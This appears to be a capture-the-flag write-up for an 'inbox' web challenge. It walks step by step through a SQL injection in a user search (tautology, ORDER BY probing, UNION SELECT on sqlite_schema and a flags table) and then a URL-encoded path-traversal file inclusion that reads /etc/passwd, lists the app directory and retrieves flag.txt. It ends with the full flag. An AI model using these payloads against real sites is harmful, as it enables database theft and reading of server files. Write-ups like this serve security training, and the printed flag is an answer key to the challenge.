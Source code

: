 ![](../images/inbox1.png)
after visiting the website and clicking in search for user, we get one page which presente us 
a search input in order to search user by enter the name.
directly, i thought about **xss** or **sqli**. but after make some test, i  understand that the search functionality is vulnerable to sqli **SQL INJECTION **
how i know that?: i make some test.  
i order to test for sqli, we can input some char like (", ', `, (' , (", )  which will trigger an error if they are sqli vuln . see below
![](../images/inbox5.png)
i input **'** and i get error.
so let get users from the database:
**payload**: 'or '1' ='1' --
we get all the user;
![](../images/inbox2.png)
<br/>
we can fuger out that  the **union base sqli** is evalable
so let get the number of column.
payload: **'or '1' ='1'  ORDER BY  2--**
output: good we get all the user.
![](../images/inbox3.png)
<br/>
payload: **'or '1' ='1'  ORDER BY  3--**
output: good we get an error.
![](../images/inbox4.png)
conclusion: **the number of column is 2**

#now we need to know the type of DBMS the backend use. let make some test. 
in order to do that, i try to get dbms version by using some payload.
# from portswigger
 Oracle 	SELECT banner FROM v$version
SELECT version FROM v$instance
Microsoft 	SELECT @@version
PostgreSQL 	SELECT version()
MySQL 	SELECT @@version 

after try these payload and get alwayse an error, i try to test for *SQLITE* and that work
<br/>
payload:   **'or '1' ='1'  UNION SELECT null, sql FROM sqlite_schema--**
output: ** 
Results

- CREATE TABLE flags ( flag varchar(255) )

- CREATE TABLE users ( id int, email varchar(255) )

1 - alice@fakeinbox.com

2 - bob@fakeinbox.com

3 - charlie@fakeinbox.com**
so we see that the database have to table, users, and flags. the flags table is very important for use. 😅
so let dump all value from flags table:
payload: **'or '1' ='1'  UNION SELECT null, flag FROM flags--**
output: see picture below
![](../images/inbox6.png)
we get the fist part of the flag:
#  flag{off_to_a_good_start_
/
#end of part one
#know we need to hunt the second part of the flag. are you ready? let go
after clicking on [- flag{off_to_a_good_start_] from the previous page we got, we get this page:
![](../images/inbox7.png)\\\
the backend code try to include 'flag{off_to_a_good_start_' file from './mail' directory.
let me say that the website use 
# node js, express as backend
so we need to make local file inclusion in order to read files from the server.
after make some test and gest nothing, i use **ffuf**  and **seclist** to fuzz for valide payload.
see this image:
![](../images/inbox8.png) \\
so payload like this can work: ..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd
![](../images/inbox9.png) 
we read /etc/passwd flag.\\
by exploiting this vunl, we can list the content of all directory on the server. 
payload like this: ..%2F..%2F..%2F%2F..%2F..%2
# list the content of / directory

payload: https://thecybercoopctf-inbox.chals.io/mail/..%2F..%2F..%2F%2F..%2F..%2Fusr%2fsrc%2fapp
output:
'''
Emails

flag.txt

inbox.db

index.js

mail

migrations.sql

node_modules

package-lock.json

package.json

views
'''
with this payload: we read the content of: /usr/src/app
and we see that we have the flag.txt file on it. so let read the content of this file.
payload: **https://thecybercoopctf-inbox.chals.io/mail/..%2F..%2F..%2F%2F..%2F..%2Fusr%2fsrc%2fapp/flag.txt**
output: see image below.
![](../images/inbox11.png) 

so we get the last part of the flag
# even_better_finish_though}
# the final flag ist: flag{off_to_a_good_start_even_better_finish_though}
